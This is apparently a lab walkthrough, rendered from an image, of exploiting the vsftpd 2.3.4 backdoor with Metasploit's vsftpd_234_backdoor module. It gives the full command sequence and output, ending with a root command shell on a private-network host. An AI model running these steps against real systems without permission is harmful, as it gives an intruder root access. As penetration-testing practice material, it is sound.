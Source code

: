 <pre>21/tcp   open  ftp         vsftpd 2.3.4</pre>
<pre>vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)</pre>

<pre>msf6 > search vsftpd 2.3.4 

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor</pre>

<pre>msf6 > use 0</pre>

<pre>msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options</pre>

<pre>Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic</pre>


<pre>msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts A.B.C.D</pre>

<pre>msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit</pre>


<pre>[*] 192.168.161.131:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.161.131:21 - USER: 331 Please specify the password.
[+] 192.168.161.131:21 - Backdoor service has been spawned, handling...
[+] 192.168.161.131:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.161.128:34389 -> 192.168.161.131:6200) at 2025-02-04 14:25:00 +0530


id
uid=0(root) gid=0(root)</pre>


